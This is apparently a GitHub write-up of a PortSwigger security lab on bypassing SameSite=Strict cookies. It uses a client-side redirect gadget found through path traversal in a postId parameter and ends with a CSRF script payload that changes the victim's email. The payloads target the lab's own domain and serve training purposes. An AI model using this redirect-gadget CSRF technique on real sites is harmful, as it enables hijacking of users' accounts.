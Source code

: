 ## Lab Description:

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/217d7128-6aea-449b-9945-3c4ffd7f15d1)


## Overview :

#### Bypassing SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters. For some examples, see our materials on DOM-based open redirection.

As far as browsers are concerned, these client-side redirects aren't really redirects at all; the resulting request is just treated as an ordinary, standalone request. Most importantly, this is a same-site request and, as such, will include all cookies related to the site, regardless of any restrictions that are in place.

If you can manipulate this gadget to elicit a malicious secondary request, this can enable you to bypass any SameSite cookie restrictions completely. 

> Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially,
> so they still apply the appropriate cookie restrictions. 

## Solution


When we login as wiener , browser sends as _POST_ request to `/login`. The response contains the session cookies along with `Samesite=Strict` attribute.

Now let's try to change the email of wiener.

```http
POST /my-account/change-email HTTP/2
Host: 0a4c00900404639b8285fc6e007100b6.web-security-academy.net
Cookie: session=aYNMYZGEES8XmfKjcYvyFXtJGocCK1op
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://0a4c00900404639b8285fc6e007100b6.web-security-academy.net
Referer: https://0a4c00900404639b8285fc6e007100b6.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=wiener%40wiener.net&submit=1
```

Note that there is no CSRF token or samesite cookie here at this endpoint (**/my-account/change-email**). So if we can able to  make any cross site request to this endpoint then we can perform a csrf attack.

#### Identify a gadget for client side redirect -

When we click on any blog post & post a comment on it, we are initially taken to post confirmation page at  `/post/comment/confirmation?postId=4` but hten after few seconds we're again redirected back to **Home page**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/157de5f6-b779-4a51-b882-f7f500c1e531)


This means there is a **client side redirect**. 

Going to burp HTTP history , we can see that there the web application loads a `.js` file after the post confirmation request which redirects us to the Home page.

-  The response for Post confirmation request .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/501de64a-5c6d-4a2d-9f03-0380d5ffce6b)

- The _.js_ file that is reponsible for client side redirect.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa242084-7dfd-49d2-8b27-4c361804590a)

- Redirection to Home page

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6c2948da-051a-4d5c-bb02-c6d94a4f01ca)

> By concatenating the variables and strings together using the + operator, the code constructs a new URL. The new URL is then assigned to `window.location`,
> causing the browser to navigate to that URL. For example, if blogPath is `/blog` and postId is `123`, the resulting URL would be `/blog/123`, and the browser
> would navigate to that URL.

Response 




**What if we give any other input like foo in the post confirmation request in the `postId` parameter?**

> /post/comment/confirmation?postId=foo

**Request**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/552bf4a9-1644-4d33-b8ea-88bbfae52453)


**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bc16fea1-bac8-4dd2-b3e5-ad5984dc2782)

And as expected we got redirected to `/post/foo`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f709ac5d-0839-4dc2-b9b2-c885513e909b)

Now since we found our gadget that is responsible for client side redirect, **we can try giving path traversal sequence such as `/post/comment/confirmation?postId=1/../../my-account` to redirect us to the MyAccount page.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8c9c4ae6-0ea2-4454-989b-8b4477c1c6a9)

And it worked !

#### Bypass Samesite=strict cookie restriction

Go to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested. 

```js
<script>
      document.location = "https://0a57008203ceef8781d525aa008200b2.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2ca93f5d-6f9d-4d21-824b-ffbd948dce66)

Observe that when the client-side redirect takes place, we still end up on your logged-in account page. This confirms that the browser included our authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site. 

#### Final payload

Send the POST /my-account/change-email request to Burp Repeater.

In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent GET request.

Send the request. Observe that the endpoint allows you to change your email address using a GET request.

Now change the `postId` parameter in the exploit so that the redirect causes the browser to send the equivalent GET request for changing your email address:

> Include autosubmit script.

```js
<script>
          document.location = "https://0a57008203ceef8781d525aa008200b2.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40user.net%26submit=1";
      document.forms[0].submit();
</script>
```

Finally we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/93ae414e-16f7-49b0-9d24-fea67de89686)


